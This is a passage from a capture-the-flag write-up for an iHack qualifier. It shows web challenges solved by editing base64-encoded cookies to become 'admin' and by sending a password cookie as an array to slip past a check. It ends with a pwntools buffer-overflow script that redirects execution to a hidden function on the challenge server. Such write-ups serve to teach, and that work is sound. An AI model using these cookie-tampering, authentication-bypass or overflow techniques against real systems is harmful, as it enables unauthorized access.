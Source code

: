 3. I am using **postman** to alter my cookies and sending a HTTP request with the **base64** encoded text I've just copied from above.
![Cookies](/images/ihackqual/ihackqual2.png)*Changing cookies*  

4. and here is the flag!
![FlagWeb01](/images/ihackqual/ihackqual1.png)*Flag for web01*
<br><br>
#### Web03
---
1. Sending get request to the page and we could see the cookies value looks familiar. Looks like it's **base64**. And the password is set **biskutsedap**. Looks fishy to me...
![Cookies](/images/ihackqual/ihackqual3.png)*Cookies that looks like base64*  

2. Decode to **base64** two times and we found that we are logged in as **user**. Through my intuition, I changed the value **user** to **admin**
![base64decode](/images/ihackqual/ihackqual4.png)*Base64 decoding*  

3. After this we have an error saying incorrect password. So we change **password** cookie to **password[]** to try and bypass it.
![passwordtoemptyarray](/images/ihackqual/ihackqual5.png)*Changing password to an empty array*  

4. Then do a request again and you will the flag in html body!  
![FlagWeb03](/images/ihackqual/ihackqual6.png)*Found the flag for Web03!*  
<br>
## PWN Category
---
#### Pwn02
---
1. Check what kind of file is it and found it’s an **elf** file.  

2. We have seen this challenge somewhere before. We just edited the script we have used before, knowing we are working with a similar problem.  

```
from pwn import *
context.terminal = ["tmux", "splitw", "-h","-p","60"]
if args.SILENCE:
context.log_level="info"
else:
context.log_level="debug"

elf = ELF("./chal",checksec=False)
context.arch=elf.arch
gdb_script = """
b *echo+162
c
"""
if args.REMOTE:
p = remote("pwn2.ihack.sibersiaga.my",1389)
else:
p = elf.process(aslr=False)
if args.GDB:
gdb.attach(p,gdb_script)
offset=cyclic_find("iaaa")
payload=flat(
"A"*offset,
p32(elf.symbols["ZmxhZ2hlcmUh"])
)
p.sendlineafter("Enter some text:",payload)
p.interactive()
```